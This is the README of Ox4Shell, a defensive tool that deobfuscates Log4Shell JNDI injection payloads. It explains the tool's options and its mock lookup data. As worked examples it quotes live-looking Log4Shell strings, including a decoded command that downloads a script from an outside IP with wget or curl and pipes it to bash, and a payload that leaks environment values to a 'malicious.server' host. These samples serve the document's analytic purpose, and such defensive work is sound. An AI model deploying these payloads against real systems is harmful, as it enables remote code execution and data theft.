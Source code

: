 ![Logo-Light](https://gist.githubusercontent.com/oxeye-daniel/269eb41b379cf951d95ee4a23555db74/raw/e9b937b101cfc3b2a7dab83b640189adde1da287/bright.png#gh-dark-mode-only)![Logo-Dark](https://gist.githubusercontent.com/oxeye-daniel/269eb41b379cf951d95ee4a23555db74/raw/e9b937b101cfc3b2a7dab83b640189adde1da287/dark.png#gh-light-mode-only)

<hr/>
<p align="center">
    <img alt="maintained-oxeye" src="https://img.shields.io/badge/maintained%20by-oxeye.io-blueviolet"/>
    <img alt="python-3.8" src="https://img.shields.io/badge/python-3.8-green"/>
    <img alt="version-1.1" src="https://img.shields.io/badge/version-1.1-blue"/>
    <img alt="license-mit" src="https://img.shields.io/badge/license-MIT-lightgrey"/>
</p>

# Ox4Shell
Deobfuscate Log4Shell payloads with ease.

## Description
Since the release of the Log4Shell vulnerability (CVE-2021-44228), many tools were created to obfuscate Log4Shell payloads,
making the lives of security engineers a nightmare.

This tool intends to unravel the true contents of obfuscated Log4Shell payloads. 

For example, consider the following obfuscated payload:
```text
${zrch-Q(NGyN-yLkV:-}${j${sm:Eq9QDZ8-xEv54:-ndi}${GLX-MZK13n78y:GW2pQ:-:l}${ckX:2@BH[)]Tmw:a(:-da}${W(d:KSR)ky3:bv78UX2R-5MV:-p:/}/1.${)U:W9y=N:-}${i9yX1[:Z[Ve2=IkT=Z-96:-1.1}${[W*W:w@q.tjyo@-vL7thi26dIeB-HxjP:-.1}:38${Mh:n341x.Xl2L-8rHEeTW*=-lTNkvo:-90/}${sx3-9GTRv:-Cal}c$c${HR-ewA.mQ:g6@jJ:-z}3z${uY)u:7S2)P4ihH:M_S8fanL@AeX-PrW:-]}${S5D4[:qXhUBruo-QMr$1Bd-.=BmV:-}${_wjS:BIY0s:-Y_}p${SBKv-d9$5:-}Wx${Im:ajtV:-}AoL${=6wx-_HRvJK:-P}W${cR.1-lt3$R6R]x7-LomGH90)gAZ:NmYJx:-}h}
```

After running Ox4Shell, it would transform into an intuitive and readable form:
```text
${jndi:ldap://1.1.1.1:3890/Calc$cz3z]Y_pWxAoLPWh}
```

This tool also aids to identify and decode base64 commands
For example, consider the following obfuscated payload:
```text
${jndi:ldap://1.1.1.1:1389/Basic/Command/Base64/KHdnZXQgLU8gLSBodHRwOi8vMTg1LjI1MC4xNDguMTU3OjgwMDUvYWNjfHxjdXJsIC1vIC0gaHR0cDovLzE4NS4yNTAuMTQ4LjE1Nzo4MDA1L2FjYyl8L2Jpbi9iYXNoIA==}
```

After running Ox4Shell, the tool reveals the attacker’s intentions:
```text
${jndi:ldap://1.1.1.1:1389/Basic/(wget -O - http://185.250.148.157:8005/acc||curl -o - http://185.250.148.157:8005/acc)|/bin/bash
```

⚠️ We recommend running `Ox4Shell` with a provided file (`-f`) rather than an inline payload (`-p`), because certain 
shell environments will escape important characters, therefore will yield inaccurate results. 

## Usage
To run the tool simply:
```
~/Ox4Shell » python ox4shell.py --help
usage: ox4shell [-h] [-d] [-m MOCK] [--max-depth MAX_DEPTH] [--decode-base64] (-p PAYLOAD | -f FILE)

   ____       _  _   _____ _          _ _ 
  / __ \     | || | / ____| |        | | |
 | |  | |_  _| || || (___ | |__   ___| | |
 | |  | \ \/ /__   _\___ \| '_ \ / _ \ | |
 | |__| |>  <   | | ____) | | | |  __/ | |
  \____//_/\_\  |_||_____/|_| |_|\___|_|_|

Ox4Shell - Deobfuscate Log4Shell payloads with ease.
    Created by https://oxeye.io

General:
  -h, --help            Show this help message and exit
  -d, --debug           Enable debug mode (default: False)
  -m MOCK, --mock MOCK  The location of the mock data JSON file that replaces certain values in the payload (default: mock.json)
  --max-depth MAX_DEPTH
                        The maximum number of iteration to perform on a given payload (default: 150)
  --decode-base64       Payloads containing base64 will be decoded (default: False)

Targets:
  Choose which target payloads to run Ox4Shell on

  -p PAYLOAD, --payload PAYLOAD
                        A single payload to deobfuscate, make sure to escape '$' signs (default: None)
  -f FILE, --file FILE  A file containing payloads delimited by newline (default: None)
```

## Mock Data
The Log4j library has a few unique lookup functions, which allow users to look up environment variables, runtime 
information on the Java process, and so forth. This capability grants threat actors the ability to probe for specific 
information that can uniquely identify the compromised machine they targeted.

Ox4Shell uses the `mock.json` file to insert common values into certain lookup function, for example,
if the payload contains the value `${env:HOME}`, we can replace it with a custom mock value.

The default set of mock data provided is:
```json
{
    "hostname": "ip-127.0.0.1",
    "env": {
        "aws_profile": "staging",
        "user": "ubuntu",
        "pwd": "/opt/",
        "path": "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/jvm/java-1.8-openjdk/jre/bin:/usr/lib/jvm/java-1.8-openjdk/bin"
    },
    "sys": {
        "java.version": "16.0.2",
        "user.name": "ubuntu"
    },
    "java": {
        "version": "Java version 16.0.2",
        "runtime": "OpenJDK Runtime Environment (build 1.8.0_181-b13) from Oracle Corporation",
        "vm": "OpenJDK 64-Bit Server VM (build 25.181-b13, mixed mode)",
        "os": "Linux 5.10.47-linuxkit unknown, architecture: amd64-64",
        "locale": "default locale: en_US, platform encoding: UTF-8",
        "hw": "processors: 1, architecture: amd64-64"
    }
}

```

As an example, we can deobfuscate the following payload using the Ox4Shell's mocking capability:
```bash
~/Ox4Shell >> python ox4shell.py -p "\${jndi:ldap://\${sys:java.version}.\${env:AWS_PROFILE}.malicious.server/a}"  
${jndi:ldap://16.0.2.staging.malicious.server/a}
```

## Authors
- [Daniel Abeles](https://twitter.com/Daniel_Abeles)
- [Ron Vider](https://twitter.com/ron_vider)


## License
The source code for the project is licensed under the MIT license, which you can find in the LICENSE file.
